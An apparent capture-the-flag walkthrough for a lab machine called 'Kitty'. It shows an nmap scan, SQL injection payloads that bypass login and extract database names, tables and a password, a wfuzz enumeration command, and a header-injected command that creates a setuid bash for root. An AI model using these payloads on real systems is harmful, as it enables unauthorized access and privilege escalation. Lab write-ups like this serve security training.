 # Kitty

10.10.237.211

## nmap

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b0:c5:69:e6:dd:6b:81:0c:da:32:be:41:e3:5b:97:87 (RSA)
|   256 6c:65:ad:87:08:7a:3e:4c:7d:ea:3a:30:76:4d:04:16 (ECDSA)
|_  256 2d:57:1d:56:f6:56:52:29:ea:aa:da:33:b2:77:2c:9c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## http 80

sqli: user'-- -

```sh
wfuzz --hh 1147 -c -w /usr/share/wordlists/seclists/Usernames/Names/names.txt  -d "username=FUZZ%27--+-&password=sqdfqsdfsqdfsdf" http://10.10.181.136/index.php
```
=> kitty

### SQLI

```sql
' UNION SELECT 1,2,3,4-- -
```

=> 4 columns

#### DB

```sql
' UNION SELECT 1,2,3,4 FROM information_schema.schemata WHERE schema_name LIKE BINARY "a%"-- -
```

- bf_databases.py

    - devsite
    - information_schema
    - mywebsite
    - performance_schema

#### TABLES

```sql
' UNION SELECT 1,2,3,4 FROM information_schema.tables WHERE table_schema = 'mywebsite' AND table_name LIKE BINARY 'u%'-- -
```

For mywebsite:
- siteusers

For devsite:
- siteusers

#### COLUMNS

```sql
' UNION SELECT 1,2,3,4 FROM information_schema.COLUMNS WHERE table_schema = 'mywebsite' AND table_name = 'siteusers' AND COLUMN_NAME LIKE BINARY 'u%'-- -
```

For mywebsite:
- created_at
- id
- password
- username

For devsite:
- created_at
- id
- password
- username

#### PASSWORD

```sql
' UNION SELECT 1,2,3,4 FROM siteusers WHERE username = 'kitty' AND password LIKE BINARY '{result}{char}%'-- -
```

L0ng_Liv3_KittY

## foothold

kitty:L0ng_Liv3_KittY

## root

In /opt/log_checker.sh, it reads content of /var/www/development/logged

It is filled when a forbidden word is used in index.php using field X-Forwarded-For

To access this page, we check /etc/apache2/sites-enabled/dev_site.conf
-> <VirtualHost 127.0.0.1:8080>

To visit it:
ssh -L 8081:localhost:8080 kitty@10.10.39.28

Use the password 'sleep' to trig "SQL Injection detected. This incident will be logged"

In burp:
X-Forwarded-For: && cp /bin/bash /tmp/kikou && chmod +s /tmp/kikou
